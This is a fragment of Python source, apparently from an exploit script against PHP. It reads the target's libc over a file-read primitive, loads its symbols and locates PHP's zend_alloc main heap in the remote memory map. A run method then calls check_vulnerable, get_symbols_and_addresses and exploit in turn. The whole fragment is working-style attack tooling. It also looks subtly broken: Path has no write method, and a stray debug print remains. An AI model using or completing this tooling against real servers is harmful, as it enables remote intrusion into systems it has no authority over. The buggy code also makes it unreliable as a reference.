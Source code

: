 ```python

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        self.download_file(libc.path, LIBC_FILE)

        # Add nullbyte
        with open(LIBC_FILE, "ab") as f:
            f.write(b"\0"*16)


        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.get_file(remote_path)
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        print(heaps)
        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using first)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:    

```